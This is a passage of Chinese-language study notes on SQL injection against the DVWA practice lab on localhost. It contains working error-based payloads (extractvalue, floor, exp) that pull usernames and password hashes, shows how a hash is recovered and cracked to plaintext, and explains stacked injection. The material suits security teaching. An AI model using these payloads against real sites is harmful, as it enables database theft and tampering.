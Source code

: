 - 获取用户名和密码
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select user from dvwa.users limit 0,1)))  -- &Submit=Submit#
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,concat(0x7e, (select password from dvwa.users limit 0,1)))  -- &Submit=Submit#
  - 问题：密码长度超过32位，导致真正的加密密码只有31位，不全
- Mid() 函数
  - 用于从文本字段中提取字符，自定义长度与起始位置
  - MID( string, start_position, length )
  - link：https://www.techonthenet.com/mysql/functions/mid.php
- 获取真正的密码
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,mid(concat(0x7e, (select password from dvwa.users limit 0,1)), 1, 29))  -- &Submit=Submit#
    - 获得，XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882cf9'
  - http://127.0.0.1:81/vulnerabilities/sqli/?id=' and extractvalue(1,mid(concat(0x7e, (select password from dvwa.users limit 0,1)), 29, 29))  -- &Submit=Submit#
    - 获得，XPATH syntax error: 'cf99'
  - 真正的密码为，5f4dcc3b5aa765d61d8327deb882cf9cf99
  - https://www.cmd5.com/ 解密，得到明文密码为 password
- 扩展练习
  - 通过 floor 报错,注入语句如下:
    - select 1 from (select count(\*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a;
  - 通过 exp 报错,注入语句如下:
    - select exp(~(select * from (select user())x)); 



### 堆叠注入 

#### 堆叠注入定义 

- 堆叠注入（Stacked Injections） 
  - 一堆 SQL 语句(多条)一起执行。
  - 在 MySQL 中, 主要是命令行中, 每一条语句结尾加; 表示语句结束。这样我们就想到了是不是可以多句一起使用。
  - 这个叫做 stacked injection。
- 测试SQL:
  - select * from test;
  - select * from test where id=1; select * from test where id=2;
  - select * from test; update test set name='updated_test' where id=2;
  - select * from test;
- 在 ; 结束一个SQL语句后继续构造下一条语句，使多条语句顺序执行，这就是
  堆叠注入。
- 思考：union injection（联合注入）也是将两条语句合并在一起，两者之间有什么
  区别么？ 
  - union或者union all执行的语句类型是有限的，只可以用来执行查询语句，而堆叠注入可以执行任意的语句。
  - 注意：场景少，但是威力大！ 
- 并不是每一个环境下都可以执行，很可能受到API或者数据库引擎不支持的限制，同时权限不足也是面临的主要问题。
- 真实环境中：
  1. 通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的；
  2. 在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。 

